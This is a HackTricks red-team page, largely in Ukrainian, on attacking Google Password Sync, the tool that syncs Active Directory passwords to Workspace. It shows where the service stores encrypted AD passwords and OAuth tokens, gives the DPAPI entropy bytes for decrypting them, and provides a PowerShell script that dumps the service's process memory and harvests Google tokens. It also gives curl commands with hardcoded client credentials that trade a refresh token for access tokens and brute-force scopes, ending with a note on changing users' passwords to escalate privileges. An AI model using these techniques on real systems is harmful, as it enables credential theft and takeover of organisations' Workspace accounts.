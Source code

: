 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Це двійковий файл і служба, яку Google пропонує для **синхронізації паролів користувачів між AD** та Workspace. Кожного разу, коли користувач змінює свій пароль в AD, він встановлюється в Google.

Він встановлюється в `C:\Program Files\Google\Password Sync`, де ви можете знайти двійковий файл `PasswordSync.exe` для його налаштування та `password_sync_service.exe` (служба, яка продовжить працювати).

### GPS - Configuration

Щоб налаштувати цей двійковий файл (і службу), потрібно **надати доступ до супер адміністратора в Workspace**:

* Увійти через **OAuth** з Google, після чого він **зберігатиме токен у реєстрі (зашифрований)**
* Доступно лише на контролерах домену з GUI
* Надати деякі **облікові дані сервісного облікового запису з GCP** (json файл) з правами на **управління користувачами Workspace**
* Дуже погана ідея, оскільки ці облікові дані ніколи не закінчуються і можуть бути зловживані
* Дуже погана ідея надавати SA доступ до Workspace, оскільки SA може бути скомпрометований у GCP, і це може дозволити перейти до Workspace
* Google вимагає це для контролю домену без GUI
* Ці облікові дані також зберігаються в реєстрі

Щодо AD, можливо вказати використовувати поточний **контекст додатків, анонімний або деякі специфічні облікові дані**. Якщо вибрано варіант облікових даних, **ім'я користувача** зберігається в файлі на **диску**, а **пароль** є **зашифрованим** і зберігається в **реєстрі**.

### GPS - Dumping password and token from disk

{% hint style="success" %}
Зверніть увагу, що [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) здатний виявити **GPS**, отримати інформацію про конфігурацію та **навіть розшифрувати пароль і токен**.
{% endhint %}

У файлі **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** можна знайти частину конфігурації, таку як **`baseDN`** налаштованого AD та **`username`**, облікові дані якого використовуються.

У реєстрі **`HKLM\Software\Google\Google Apps Password Sync`** можна знайти **зашифрований токен оновлення** та **зашифрований пароль** для користувача AD (якщо є). Більше того, якщо замість токена використовуються деякі **облікові дані SA**, їх також можна знайти зашифрованими за цією адресою реєстру. **Значення** в цьому реєстрі доступні лише **адміністраторам**.

Зашифрований **пароль** (якщо є) знаходиться в ключі **`ADPassword`** і зашифрований за допомогою **`CryptProtectData`** API. Щоб розшифрувати його, потрібно бути тим же користувачем, що налаштував синхронізацію паролів, і використовувати цю **ентропію** при використанні **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Зашифрований токен (якщо є) знаходиться в ключі **`AuthToken`** і зашифрований за допомогою **`CryptProtectData`** API. Щоб розшифрувати його, потрібно бути тим же користувачем, що налаштував синхронізацію паролів, і використовувати цю **ентропію** при використанні **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Більше того, він також кодується за допомогою base32hex з словником **`0123456789abcdefghijklmnopqrstv`**.

Значення ентропії були знайдені за допомогою інструменту. Він був налаштований для моніторингу викликів до **`CryptUnprotectData`** та **`CryptProtectData`**, а потім інструмент використовувався для запуску та моніторингу `PasswordSync.exe`, який розшифрує налаштований пароль і токен авторизації на початку, і інструмент **показуватиме значення для використаної ентропії** в обох випадках:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Зверніть увагу, що також можливо побачити **розшифровані** значення в введенні або виході викликів до цих API (в разі, якщо в якийсь момент Winpeas перестане працювати).

У разі, якщо синхронізація паролів була **налаштована з обліковими даними SA**, вона також буде зберігатися в ключах у реєстрі **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Dumping tokens from memory

Так само, як і з GCPW, можливо вивантажити пам'ять процесу `PasswordSync.exe` та процесу `password_sync_service.exe`, і ви зможете знайти токени оновлення та доступу (якщо вони вже були згенеровані).\
Я думаю, ви також могли б знайти налаштовані облікові дані AD.

<details>

<summary>Dump <code>PasswordSync.exe</code> and the <code>password_sync_service.exe</code> processes and search tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Генерація токенів доступу з токенів оновлення

Використовуючи токен оновлення, можна згенерувати токени доступу, використовуючи його та ідентифікатор клієнта і секрет клієнта, зазначені в наступній команді:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
Зверніть увагу, що навіть маючи refresh token, неможливо запитати жоден scope для access token, оскільки ви можете запитувати лише **scopes, підтримувані додатком, в якому ви генеруєте access token**.

Також refresh token не є дійсним в кожному додатку.
{% endhint %}

За замовчуванням GPS не матиме доступу як користувач до кожного можливого OAuth scope, тому, використовуючи наступний скрипт, ми можемо знайти scopes, які можна використовувати з `refresh_token` для генерації `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

І ось результат, який я отримав на момент написання:
```
https://www.googleapis.com/auth/admin.directory.user
```
Який є тим самим, що ви отримуєте, якщо не вказуєте жодної області.

{% hint style="danger" %}
З цією областю ви могли б **змінити пароль існуючого користувача для підвищення привілеїв**.
{% endhint %}

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
